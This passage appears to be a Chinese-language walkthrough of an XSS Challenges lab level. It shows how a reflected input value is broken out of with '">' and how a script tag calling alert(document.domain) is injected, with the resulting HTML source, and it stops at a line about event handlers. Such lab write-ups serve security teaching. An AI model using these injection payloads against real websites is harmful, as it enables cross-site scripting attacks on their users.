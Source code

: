 提交 hello

![](./../../../../images/XSS_Challenges/%E6%8F%90%E4%BA%A4%20hello.png)

> 发现回显处发生了改变

**判断能否执行 javascript 代码**

查看源码

```
<input type="text" name="p1" size="50" value="hello">
```

> 发现回显位置已经改变，此时注入 javascript 并不会执行代码

**设法执行 javascript**

闭合 **input 标签**（ 利用 "> ）

执行 javascript

```
hello"><script>alert(document.domain);</script>
```

```
<input type="text" name="p1" size="50" value="hello"><script>alert(document.domain);</script>">
```

> 成功执行 javascript

查看源码

```
<input type="text" name="p1" size="50" value="hello">
<script>alert(document.domain);</script>
">
```

插入**事件** 触发执行 js（利用 " ）
